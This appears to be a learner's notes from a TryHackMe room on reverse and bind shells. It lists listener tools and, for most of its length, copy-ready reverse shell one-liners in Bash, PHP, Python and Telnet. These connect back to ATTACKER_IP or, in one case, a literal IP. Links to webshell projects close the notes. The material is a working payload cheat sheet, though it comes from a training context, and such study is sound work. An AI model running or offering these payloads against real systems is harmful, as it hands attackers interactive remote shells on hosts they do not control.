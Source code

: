 # All about shellls

In this room we walked through the differences between reverse shells and bind shells. The reverse shell is a connection that is inititated from the target host back to the attackers IP. This gives the attacker less of an chance of getting caught. Bind shells are initiated from the attack host and connecting directly do the expected target. These connections require persistent connectivity and as such more likely to be detected.

## Tools
netcat - the default/standard listener
rlwrap - wrapper for netcat that gives you history and better UI experience
ncat - nmaps version of netcat that allows SSL connections if desired
socat - for socket listening

## Payloads
Bash
Normal Bash Reverse Shell

Terminal
target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
This reverse shell initiates an interactive bash shell that redirects input and output through a TCP connection to the attacker's IP (ATTACKER_IP) on port 443. The >& operator combines both standard output and standard error.


Bash Read Line Reverse Shell

Terminal
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
This reverse shell creates a new file descriptor (5 in this case)  and connects to a TCP socket. It will read and execute commands from the socket, sending the output back through the same socket.


Bash With File Descriptor 196 Reverse Shell

Terminal
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
This reverse shell uses a file descriptor (196 in this case) to establish a TCP connection. It allows the shell to read commands from the network and send output back through the same connection.


Bash With File Descriptor 5 Reverse Shell

Terminal
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
Similar to the first example, this command opens a shell (bash -i), but it uses file descriptor 5 for input and output, enabling an interactive session over the TCP connection.

PHP
PHP Reverse Shell Using the exec Function

Terminal
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
This reverse shell creates a socket connection to the attacker's IP on port 443 and uses the exec function to execute a shell, redirecting standard input and output.


PHP Reverse Shell Using the shell_exec Function

Terminal
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
Similar to the previous command, but uses the shell_exec function.


PHP Reverse Shell Using the system Function

php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
This reverse shell employs the system function, which executes the command and outputs the result to the browser.


PHP Reverse Shell Using the passthru Function

php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
The passthru function executes a command and sends raw output back to the browser. This is useful when working with binary data.


PHP Reverse Shell Using the popen Function

php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
This reverse shell uses popen to open a process file pointer, allowing the shell to be executed.

Python
Python Reverse Shell by Exporting Environment Variables

target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

Python Reverse Shell Using the subprocess Module

target@tryhackme:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
This reverse shell uses the subprocess module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.

Short Python Reverse Shell

python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
This reverse shell creates a socket (s), connects to the attacker, and redirects standard input, output, and error to the socket using os.dup2().

Others

Telnet
TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF

This reverse shell creates a named pipe using mkfifo and connects to the attacker via Telnet on IP ATTACKER_IP and port 443. 

## Webshells
[p0wny-shell](https://github.com/flozz/p0wny-shell)
[b374k shell](https://github.com/b374k/b374k)